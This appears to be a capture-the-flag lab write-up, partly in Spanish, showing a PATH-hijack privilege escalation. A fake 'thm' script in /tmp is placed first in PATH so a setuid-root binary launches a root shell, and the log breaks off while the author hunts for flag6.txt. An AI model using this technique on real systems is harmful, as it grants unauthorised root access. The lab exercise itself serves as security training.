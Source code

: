 ```
/usr/lib/systemd/system/cryptdisks.service
/usr/lib/systemd/system/sudo.service
/usr/lib/systemd/system/screen-cleanup.service
/usr/lib/systemd/system/multipath-tools-boot.service
/usr/lib/systemd/system/x11-common.service
/usr/lib/systemd/system/lvm2.service
/usr/lib/systemd/system/rcS.service
/usr/lib/systemd/system/rc.service
/usr/lib/systemd/system/cryptdisks-early.service
/home/murdoch


/home/murdoch
```

```

```

### Exploit the $PATH vulnerability to read the content of the flag6.txt file.  
### Nos damos cuenta que en ese dir, hay un test que busca thm
```
aren@ip-10-10-35-80:/$ cd /home/murdoch/
karen@ip-10-10-35-80:/home/murdoch$ ls -la
total 36
drwxrwxrwx 2 root  root   4096 Oct 17 18:17 .
drwxr-xr-x 5 root  root   4096 Jun 20  2021 ..
-rwsr-xr-x 1 root  root  16712 Jun 20  2021 test
-rw-rw-r-- 1 karen karen    10 Oct 17 18:17 thm
-rw-rw-r-- 1 root  root     86 Jun 20  2021 thm.py
karen@ip-10-10-35-80:/home/murdoch$ ./test 
sh: 1: thm: not found

```

### What is the content of the flag6.txt file?

### crearemos un fake thm que el binario llama, modificamos la rutaa

```
karen@ip-10-10-35-80:/$ cd /tmp
karen@ip-10-10-35-80:/tmp$ echo "/bin/bash" > thm
karen@ip-10-10-35-80:/tmp$ cat thm 
/bin/bash
karen@ip-10-10-35-80:/tmp$ chmod 777 tm
chmod: cannot access 'tm': No such file or directory
karen@ip-10-10-35-80:/tmp$ chmod 777 thm 
karen@ip-10-10-35-80:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
karen@ip-10-10-35-80:/tmp$ export PATH=/tmp:$PATH
karen@ip-10-10-35-80:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
karen@ip-10-10-35-80:/tmp$ /home/murdoch/test 
root@ip-10-10-35-80:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
root@ip-10-10-35-80:/tmp# cd /home/ubuntu/
root@ip-10-10-35-80:/home/ubuntu# cat flag6.txt
cat: flag6.txt: No such file or directory
root@ip-10-10-35-80:/home/ubuntu# ls
```
